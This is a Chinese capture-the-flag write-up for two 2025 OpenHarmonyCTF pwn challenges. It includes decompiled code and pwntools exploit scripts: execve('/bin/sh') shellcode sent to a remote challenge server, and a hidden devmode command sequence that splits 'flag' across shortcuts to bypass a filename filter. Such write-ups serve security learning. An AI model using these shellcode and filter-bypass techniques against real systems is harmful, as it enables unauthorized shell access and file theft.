# 2025 0penHarmonyCTF(部分)-先知社区

> **来源**: https://xz.aliyun.com/news/18244  
> **文章ID**: 18244

---

# 2025 0penHarmonyCTF(部分)

## PWN

### mini-shell

一开始拿到是比较唬人的，本地启动一下就发现程序主进程就是minishell这个二进制文件，而且可以用binwalk直接分离出来二进制文件

cat能执行shellcode，但会将寄存器清空包括rsp,rbp，跟2025vnctf一道题一模一样了

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // edx
  int v8; // ecx
  int v9; // r8d
  int v10; // r9d
  char v12; // [rsp+0h] [rbp-20h]
  _BYTE argva[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v14; // [rsp+18h] [rbp-8h]

  v14 = __readfsqword(0x28u);
  init_0(argc, argv, envp);
  while ( 1 )
  {
    printf((unsigned int)"minishell$ ", (_DWORD)argv, v3, v4, v5, v6, v12);
    if ( !fgets(argva, 10LL, stdin) )
      break;
    argva[j_strcspn_ifunc(argva, "
")] = 0;
    argv = (const char **)"exit";
    if ( !(unsigned int)j_strncmp_ifunc(argva, "exit", 4LL) )
      break;
    if ( argva[0] )
    {
      argv = (const char **)"ls";
      if ( (unsigned int)j_strncmp_ifunc(argva, "ls", 2LL) )
      {
        argv = (const char **)"clear";
        if ( (unsigned int)j_strncmp_ifunc(argva, "clear", 5LL) )
        {
          argv = (const char **)"whoami";
          if ( (unsigned int)j_strncmp_ifunc(argva, "whoami", 6LL) )
          {
            argv = (const char **)"pwd";
            if ( (unsigned int)j_strncmp_ifunc(argva, "pwd", 3LL) )
            {
              argv = (const char **)"cat";
              if ( (unsigned int)j_strncmp_ifunc(argva, "cat", 3LL) )
              {
                argv = (const char **)argva;
                printf((unsigned int)"Command not supported: %s
", (unsigned int)argva, v7, v8, v9, v10, v12);
              }
              else
              {
                cat();
              }
            }
            else
            {
              pwd();
            }
          }
          else
          {
            whoami();
          }
        }
        else
        {
          clear();
        }
      }
      else
      {
        ls();
      }
    }
  }
  return 0;
}
```

cat



exec



一开始是用的mov rsp, fs:[0x300]，去恢复栈空间，构造read再读入shellcode，本地确实是通了，远程不通，就去搜了vnctf当时的题，发现了这个很短的shellcode，本地和远程都可以通

[VNCTF-2025 | Bosh's Blog](https://z-bosh.github.io/2025/02/11/VNCTF-2025/)

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
#def pr(a):
    #print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr(size):
    return u64(p.recv(size).ljust(8,b'\x00'))
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    
#context(os='linux',arch='i386',log_level='debug')   
context(os='linux',arch='amd64',log_level='debug')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')   

elf=ELF('./minishell')
p=remote('61.147.171.107',42114)
#p = process('./minishell')

rl("minishell$")
sl(b'cat')
pause()
#sleep(0.5)

shellcode=asm('''
mov al,59
add rdi,8
syscall
''')+b'/bin/sh\x00'

#bug()
li(hex(len(shellcode)))
sl(shellcode)
'''
#sleep(0.5)
pause()
shell=b'\x90'*(0x60)+asm(shellcraft.sh())
sl(shell)

'''
inter()
```

‍

### ezshell（复现）

跟第一题一样，将二进制文件分离出来，首先定位到隐藏函数



检测第一部分!devmode，检测后续参数，sub\_40135f中规定了参数的输入格式



```
_QWORD *__fastcall sub_40135F(__int64 a1, int UMU)
{
  int v2; // r8d
  int v3; // r9d
  int v4; // edx
  int v5; // ecx
  int v6; // r8d
  int v7; // r9d
  int i_1; // edx
  int v9; // ebx
  int i; // [rsp+14h] [rbp-2Ch]
  _BYTE *v12; // [rsp+18h] [rbp-28h]
  unsigned __int64 i_2; // [rsp+20h] [rbp-20h]
  _QWORD *v14; // [rsp+28h] [rbp-18h]

  i_2 = sub_40A140(a1);
  if ( i_2 % 3 )
    sub_4042DE((unsigned int)"Invalid argument!", UMU, i_2 % 3, i_2 % 3, v2, v3);
  v14 = (_QWORD *)sub_405301(i_2 / 3 + 8);
  if ( !v14 )
    sub_4042DE((unsigned int)"Memory allocation failed!", UMU, v4, v5, v6, v7);
  *v14 = i_2 / 3 + 8;
  v12 = v14 + 1;
  for ( i = 0; i < i_2; i += 3 )
  {
    i_1 = i;
    if ( *(_BYTE *)(i + a1) != 92
      || !(unsigned int)sub_4012E3((unsigned int)*(char *)(i + 1LL + a1))
      || !(unsigned int)sub_4012E3((unsigned int)*(char *)(i + 2LL + a1)) )
    {
      sub_4042DE((unsigned int)"Invalid argument!", UMU, i_1, v5, v6, v7);
    }
    v9 = 16 * sub_401312((unsigned int)*(char *)(i + 1LL + a1));
    *v12++ = v9 + sub_401312((unsigned int)*(char *)(i + 2LL + a1));
  }
  return v14;
}
```

输入格式为

```
/61/  #a，二位ascil码
'''
\ad\51\57\51 打开 Advanced features
\ff 当打开 Advanced features 后尝试读取 /flag
\bc 当打开 Advanced features 后尝试读取 `/proc/cpuinfo``
\ea[string 的 opcode格式] 当打开 Advanced features 后为字符串创建 shortcut，如 \ea\66\6c\61，同时以 ${index} 的格式调用
'''
```

ff，bc都可以读取flag





但要想执行这个需要满足v12不为空，就需要利用ad



‍

ea功能就比较重要，就是创建快捷方式，利用shortcut可以创建参数



* **更新 UMU**：LODWORD(UMU) = n9 - 1，记录刚添加的快捷方式索引。
* **打印信息**：sub\_4073F6（可能是 printf）输出“Shortcut %d added: %s\n”，显示索引（n9 - 1）和内容（dst）。

```
__int64 __fastcall sub_403F9E(__int64 dst)
{
  int v1; // ecx
  int v2; // r8d
  int v3; // r9d
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int n9; // ebx
  __int64 v8; // rax
  int v9; // r8d
  int v10; // r9d
  __int64 v11; // rcx
  __int64 v12; // rdx
  __int64 result; // rax

  if ( sub_40A5A0(dst, "${") || sub_409FD5(dst, '}') )
    sub_4042DE((unsigned int)"Invalid shortcut: %s", dst, (unsigned int)"Invalid shortcut: %s", v1, v2, v3);
  if ( sub_40A5A0(dst, "flag") )
    sub_4042DE((unsigned int)"Invalid shortcut: %s", dst, (unsigned int)"Invalid shortcut: %s", v4, v5, v6);
  n9 = n9;
  v8 = sub_4043D4(dst);
  v11 = 8LL * n9;
  *(_QWORD *)((char *)&unk_4106C0 + v11) = v8;
  v12 = 8LL * n9;
  if ( !*(_QWORD *)((char *)&unk_4106C0 + v12) )
    sub_4042DE((unsigned int)"str_dup failed", (unsigned int)"flag", v12, v11, v9, v10);
  result = (unsigned int)++n9;
  if ( n9 > 9 )
    n9 = 0;
  return result;
}
```

‍

sub\_40127A 会将 psub\_403703 赋值回 sub\_403703 此时就可以在直接在 shell 中调用 cat 了

```
__int64 __fastcall sub_403703(__int64 a1, int a2)
{
  __int64 result; // rax
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v10; // edx
  int v11; // ecx
  int v12; // r8d
  int v13; // r9d
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  int v17; // ecx
  int v18; // r8d
  int v19; // r9d
  char n46; // [rsp+1Fh] [rbp-21h]
  __int64 v21; // [rsp+28h] [rbp-18h]
  char *filename; // [rsp+30h] [rbp-10h]
  __int64 v23; // [rsp+38h] [rbp-8h]

  result = sub_40A140(a1);
  if ( result )
  {
    v21 = sub_4040E8(a1);
    if ( !v21 )
      sub_4042DE((unsigned int)"path translation failed", a2, v3, v4, v5, v6);
    if ( (unsigned int)sub_40497C(v21) )
    {
      sub_405067(v21);
      filename = (char *)sub_4048B7(v21);
      if ( !filename )
        sub_4042DE((unsigned int)"path translation failed", a2, v10, v11, v12, v13);
      if ( sub_40A5A0(a1, "flag") )
      {
        sub_4073F6(
          (unsigned int)"cat: %s: Permission denied
",
          a1,
          (unsigned int)"cat: %s: Permission denied
",
          v14,
          v15,
          v16);
        return sub_405067(filename);
      }
      else
      {
        v23 = sub_406F83(filename);
        if ( v23 )
        {
          while ( 1 )
          {
            n46 = sub_406F44(v23, "rb");
            if ( n46 == -1 )
              break;
            if ( (unsigned int)(n46 - 32) <= 0x5E || n46 == 10 || n46 == 13 )
              sub_40755B((unsigned int)n46);
            else
              sub_40755B(46LL);
          }
          sub_406CBC(v23);
          return sub_405067(filename);
        }
        else
        {
          sub_4073F6(
            (unsigned int)"cat: cannot open '%s' for reading
",
            a1,
            (unsigned int)"cat: cannot open '%s' for reading
",
            v17,
            v18,
            v19);
          return sub_405067(filename);
        }
      }
    }
    else
    {
      return sub_4073F6(
               (unsigned int)"cat: %s: Permission denied
",
               a1,
               (unsigned int)"cat: %s: Permission denied
",
               v7,
               v8,
               v9);
    }
  }
  return result;
}
```



先提权（个人理解为提权），然后创建好字符串的快捷方式，然后cat调用，但注意，这里对快捷方式有检测，不能是flag字符串，但可以拼接绕过

```
__int64 __fastcall sub_403703(__int64 a1, int a2)
{
  __int64 result; // rax
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v10; // edx
  int v11; // ecx
  int v12; // r8d
  int v13; // r9d
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  int v17; // ecx
  int v18; // r8d
  int v19; // r9d
  char n46; // [rsp+1Fh] [rbp-21h]
  __int64 v21; // [rsp+28h] [rbp-18h]
  char *filename; // [rsp+30h] [rbp-10h]
  __int64 v23; // [rsp+38h] [rbp-8h]

  result = sub_40A140(a1);
  if ( result )
  {
    v21 = sub_4040E8(a1);
    if ( !v21 )
      sub_4042DE((unsigned int)"path translation failed", a2, v3, v4, v5, v6);
    if ( (unsigned int)sub_40497C(v21) )
    {
      sub_405067(v21);
      filename = (char *)sub_4048B7(v21);
      if ( !filename )
        sub_4042DE((unsigned int)"path translation failed", a2, v10, v11, v12, v13);
      if ( sub_40A5A0(a1, "flag") )   #检测
      {
        sub_4073F6(
          (unsigned int)"cat: %s: Permission denied
",
          a1,
          (unsigned int)"cat: %s: Permission denied
",
          v14,
          v15,
          v16);
        return sub_405067((__int64)filename);
      }
      else
      {
        v23 = sub_406F83(filename);
        if ( v23 )
        {
          while ( 1 )  #读入命令，创建快捷方式
          {
            n46 = sub_406F44(v23, "rb");
            if ( n46 == -1 )
              break;
            if ( (unsigned int)(n46 - 32) <= 0x5E || n46 == 10 || n46 == 13 )
              sub_40755B((unsigned int)n46);
            else
              sub_40755B(46LL);
          }
          sub_406CBC(v23);
          return sub_405067((__int64)filename);
        }
        else
        {
          sub_4073F6(
            (unsigned int)"cat: cannot open '%s' for reading
",
            a1,
            (unsigned int)"cat: cannot open '%s' for reading
",
            v17,
            v18,
            v19);
          return sub_405067((__int64)filename);
        }
      }
    }
    else
    {
      return sub_4073F6(
               (unsigned int)"cat: %s: Permission denied
",
               a1,
               (unsigned int)"cat: %s: Permission denied
",
               v7,
               v8,
               v9);
    }
  }
  return result;
}
```

没有提权的话会将快捷方式清空，在隐藏命令结尾处



sub\_401211


```
__int64 (__fastcall *sub_401211())()
{
  __int64 (__fastcall *sub_4011E7_1)(); // rax

  off_410330[0] = sub_40356E;
  read_cmd = (__int64 (__fastcall *)(__int64, int))sub_401169;
  off_410338[0] = sub_401193;
  off_410348[0] = sub_4038BF;
  off_410350[0] = sub_403945;
  off_410358[0] = sub_4011BD;
  sub_4011E7_1 = sub_4011E7;
  psub_4011E7 = sub_4011E7;
  return sub_4011E7_1;
}

__int64 __fastcall sub_401169(int a1, __int64 a2, __int64 a3, int a4, int a5, int a6)
{
  return sub_4073F6(
           (unsigned int)"cat: %s: Forbidden command
",
           a1,
           (unsigned int)"cat: %s: Forbidden command
",
           a4,
           a5,
           a6);
}
```

最后拼接好获取flag

我这里没有远程环境，也懒得配本地环境了，发现flag读取不出来，但快捷方式确实是创建了，而且也去执行bc部分了



```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
#def pr(a):
    #print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr(size):
    return u64(p.recv(size).ljust(8,b'\x00'))
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    
#context(os='linux',arch='i386',log_level='debug')   
context(os='linux',arch='amd64',log_level='debug')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')   

elf=ELF('./ezshell')
#p=remote('',)
p = process('./ezshell')

rl("[pwn@OpenHarmony-PC /]$")

pay=b'!devmode \ad\51\57\51 \ea\2f\70\77\6e\2f\66'

sl(pay)


pay=b'!devmode \ad\51\57\51 \ea\6c\61\67'

sl(pay)


pay=b'!devmode \bc'
sl(pay)

pay=b'cat ${0}${1}'
sl(pay)

inter()
```

‍

第三题也是一个命令执行行，js沙盒，底层只有printf函数，可以执行代码，感觉更像一个web题,可惜了，当时应该找个web佬一块帮忙看的

### 总结

遇到新型题目不要慌吧，可以去猜，可以去直接练远程去看看，一开始拿到都是懵逼的，本地启动都会遇到问题，就会有放弃的想法，注意定位关键函数位置，可以结合AI去分析，发现AI越来越nb了，华清未央，以及pwno，本人表示用不起

<https://www.52pojie.cn/thread-2032638-1-1.html>，这个还行，比较费手，整体逻辑可以分析出来


